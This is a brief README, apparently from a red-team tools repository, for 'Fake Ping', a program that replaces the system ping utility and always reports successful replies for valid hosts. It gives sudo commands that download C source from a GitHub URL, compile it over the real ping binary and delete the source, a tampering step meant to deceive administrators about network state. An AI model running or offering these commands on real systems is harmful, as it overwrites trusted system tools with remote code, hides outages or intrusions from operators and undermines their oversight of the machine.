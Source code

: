 ## Fake Ping 

Can replace the real ping utility, the typical flags work.

This will always spoof successful results **for valid hosts** (all IP addresses, valid DNS addresses).

```
sudo wget "https://raw.githubusercontent.com/JackDunfey/Red-Team-Tools/refs/heads/main/ping/ping.c" -O "/ping.c"
sudo gcc /ping.c -o $(which ping)
sudo rm /ping.c
```